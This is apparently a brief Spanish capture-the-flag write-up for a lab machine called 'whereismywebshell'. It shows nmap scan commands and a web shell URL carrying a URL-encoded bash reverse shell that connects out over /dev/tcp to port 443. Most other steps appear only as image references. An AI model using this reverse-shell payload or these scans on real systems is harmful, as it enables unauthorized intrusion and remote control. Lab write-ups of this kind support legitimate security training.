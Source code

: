 # Maquina whereismywebshell

### PUERTOS ABIERTOS

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.1

![alt text](image.png)

### SERVICIOS Y VERSIONES

sudo nmap -sVC --min-rate 6000 -p80 -vvv -Pn 172.17.0.1

![alt text](image-1.png)

### ENTRANO EN LA WEB

![alt text](image-2.png)

### FUZZING WEB

![alt text](image-3.png)


entramos en warning.html

![alt text](image-4.png)

### IDENTIFICAR EL PARÁMETRO

![alt text](image-5.png)


en la url hacemos:

http://172.17.0.1/shell.php?parameter=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/172.17.0.3/443%200%3E%261%22

previamente en escucha en el puerto 443

### ESCALAR PRIVILEGIOS

![alt text](image-6.png)
